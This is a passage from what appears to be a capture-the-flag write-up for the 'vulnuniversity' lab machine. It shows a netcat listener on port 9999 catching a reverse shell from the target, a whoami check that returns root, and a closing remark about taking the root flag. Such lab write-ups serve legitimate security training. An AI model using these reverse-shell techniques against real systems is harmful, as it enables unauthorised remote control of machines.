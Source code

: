 And guess what I saw on my netcat listener? :)

```
nc -lvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.64.169 51376 received!
bash: cannot set terminal process group (1579): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# whoami
whoami
root
root@vulnuniversity:/#
```

Now you can just get the root flag. This room was a real breath of fresh air after taking some break from those hardcore tear inducing hackthebox machines.
Well that's it for now... See you in the next one! 



